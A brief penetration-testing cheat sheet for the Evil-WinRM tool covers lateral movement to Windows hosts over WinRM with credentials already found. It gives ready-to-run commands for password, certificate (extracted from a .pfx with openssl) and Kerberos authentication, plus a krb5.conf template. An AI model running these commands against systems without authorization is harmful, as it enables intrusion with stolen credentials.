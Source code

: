 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using foudn credentials with evil-winrm

## Authentication Methods

#### 1) Clear text Password

 - evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

 - openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

 - evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

 - kinit USERNAME@DOMAIN.TLD (Authenticate and retrieve a ticket)

 - Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

[libdefaults]
    default_realm = DOMAIN.TLD
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    DOMAIN.TLD = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
    }

[domain_realm]
    .domain.tld = DOMAIN.TLD
    domain.tld = DOMAIN.TLD

 - evil-winrm -i TARGET_IP -u USERNAME -r DOMAIN -k

